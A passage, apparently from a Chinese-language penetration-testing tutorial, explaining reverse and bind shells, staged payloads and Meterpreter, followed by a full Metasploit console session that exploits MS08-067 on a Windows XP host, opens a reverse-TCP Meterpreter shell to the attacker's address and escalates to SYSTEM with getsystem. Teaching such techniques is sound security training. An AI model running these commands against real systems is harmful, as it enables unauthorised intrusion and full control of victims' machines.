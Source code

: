 您可以通过攻击者的 IP 清楚地区分反向 shell 和绑定 shell。在反向 shell 配置中，我们必须提供攻击者的 IP（例如，`LHOST` `192.168.0.3`），而在绑定 shell 中则不需要提供。

内联和分段负载之间有什么区别？内联负载是一个单独的自包含 shellcode，它将在一次利用实例中执行，而分段负载创建了攻击者和受害者机器之间的通信通道，以读取其余分段 shellcode 以执行特定任务。选择分段负载是常见做法，因为它们比内联负载要小得多。

# Meterpreters

meterpreter 是一种高级、隐秘、多面的、动态可扩展的有效载荷，通过将反射式 DLL 注入目标内存来操作。脚本和插件可以在运行时动态加载，以扩展后期利用活动的目的。这包括提权、转储系统帐户、键盘记录、持久后门服务和启用远程桌面。此外，整个 meterpreter shell 的通信默认情况下是加密的。

以下是开始利用和设置 meterpreter 有效载荷的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > show payloads
    ...
    msf exploit(ms08_067_netapi) > set PAYLOAD  windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    ...
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1029) at Sun Nov 14 02:44:26 +0000 2010
    meterpreter> help
    ... 
```

正如您所看到的，我们已成功获得了 meterpreter shell。通过输入，我们将能够看到各种可用于我们的命令。让我们检查我们当前的特权，并使用名为`getsystem`的 meterpreter 脚本将它们提升到`SYSTEM`级别：

```
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter> use priv
    meterpreter>getsystem -h
    ...
```

这将显示提升我们特权的技术数量。通过使用默认命令`getsystem`，不带任何选项，它将针对目标尝试每种技术，并在成功时立即停止：

```
 meterpreter>getsystem
    ...got system (via technique 1).
    meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>sysinfo
    Computer: CUSTDESK
    OS      : Windows XP (Build 2600, Service Pack 2).
    Arch    : x86
    Language: en_US 
```
